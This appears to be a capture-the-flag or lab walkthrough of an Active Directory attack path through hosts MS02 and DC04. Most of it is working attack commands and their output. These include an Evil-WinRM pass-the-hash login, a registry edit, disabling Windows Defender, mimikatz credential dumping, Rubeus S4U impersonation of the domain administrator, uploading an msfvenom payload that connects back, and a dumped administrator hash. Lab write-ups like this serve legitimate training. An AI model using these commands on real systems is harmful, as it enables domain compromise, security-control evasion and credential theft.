




MS02 - 172.16.4.31
Evil-WinRM to set our login with hash registry key and turn off Windows Defender
└─$ evil-winrm -i 172.16.4.31 -u svc_client_sec$ -H 'b23930001d1bfeed9ad9e1b8f34909c1'
Evil-WinRM shell v3.4
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_client_sec$\Documents> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
The operation completed successfully.
*Evil-WinRM* PS C:\Users\svc_client_sec$\Documents> Set-MpPreference -DisableRealtimeMonitoring $true
Grab the flag on the administrator's desktop
MS02

This means MS02 can impersonate any user on DC04.
Use this command to run powershell as MS02$
runas /netonly /user:client\MS02$ "powershell -ep bypass"
(just hit enter when it asks you for a PW, we're using the hash in Rubeus instead)
Make sure it worked

Use Rubeus with s4u to do the full impersonation.
(hash is MS02's hash gotten with mimikatz - privilege::debug, sekurlsa::logonpasswords /all)
.\Rubeus.exe s4u /user:MS02$ /rc4:dc7a49c0c36399ae87f3de623ebab985 /impersonateuser:administrator /msdsspn:"cifs/dc04.client.offshore.com" /altservice:cifs,host /ptt

Make a msfvenom payload and upload it to DC04
Connect back and do a hash dump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:a569f80ccd9fda0ea5e749d20aa80657:::